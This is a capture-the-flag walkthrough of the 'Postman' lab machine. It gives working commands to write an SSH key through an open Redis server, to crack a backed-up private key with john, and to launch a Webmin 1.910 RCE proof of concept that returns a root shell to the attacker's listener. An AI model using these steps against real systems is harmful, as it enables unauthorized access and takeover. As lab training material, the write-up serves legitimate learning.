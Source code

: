 # Postman

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.2.1   
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 02:05 EDT
Nmap scan report for 10.129.2.1
Host is up (0.0065s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
6379/tcp  open  redis
10000/tcp open  snet-sensor-mgmt
```

Redis is open interestingly. So we can try to check for vulnerabilities there first.

### SSH Key Write

We can connect to Redis using `redis-cli`.&#x20;

```
$ redis-cli -h 10.129.2.1
10.129.2.1:6379> info
# Server
redis_version:4.0.9
```

The Redis version is really outdated, so we can try to find some exploits regarding it. Hacktricks has some methods of exploiting this by writing SSH keys.&#x20;

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#ssh" %}

Just follow these commands:

```bash
ssh-keygen -t rsa
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
cat spaced_key.txt | redis-cli -h 10.129.2.1 -x set ssh_key
redis-cli -h 10.129.2.1
config set dir /var/lib/redis/.ssh
config set dbfilename "authorized_keys"
save
exit
chmod 600 id_rsa
ssh -i id_rsa redis@10.129.2.1
```

This would generate a pair of keys, and afterwards write it into the machine as the keys for `redis`. Then we can directly SSH in.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### User SSH Key

Within the `/home` directory, we find the user is called Matt

```
redis@Postman:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
drwxr-xr-x  6 Matt Matt 4096 Sep 11  2019 Matt
```

Within the `/opt` directory, there's a password encrypted `id_rsa` file.&#x20;

```
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
```

We can download this back to our machine and use `ssh2john` and `john` to crack it.&#x20;

```
$ ssh2john id_rsa.bak > hash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)     
1g 0:00:00:00 DONE (2023-05-02 02:17) 9.090g/s 2243Kp/s 2243Kc/s 2243KC/s confused6..comett
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Great! We now have a password for the user. We can use `su` to change from `redis` to `Matt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

### Webmin

In the earlier `nmap` scan, we found that there were some HTTP ports that I didn't touch till now. Port 10000 has a Webmin instance running, and we can login using the credentials we just found.

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

This was running Webmin 1.910, which is vulnerable to RCE through Package Updates. There are tons of PoCs online.

{% embed url="https://github.com/NaveenNguyen/Webmin-1.910-Package-Updates-RCE/blob/master/exploit_poc.py" %}

```bash
$ python3 rce.py --ip_address 10.129.2.1 --port 10000 --lhost 10.10.14.13 --lport 4444 --user Matt --password computer2008
```

This would give us an easy `root` shell.

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>
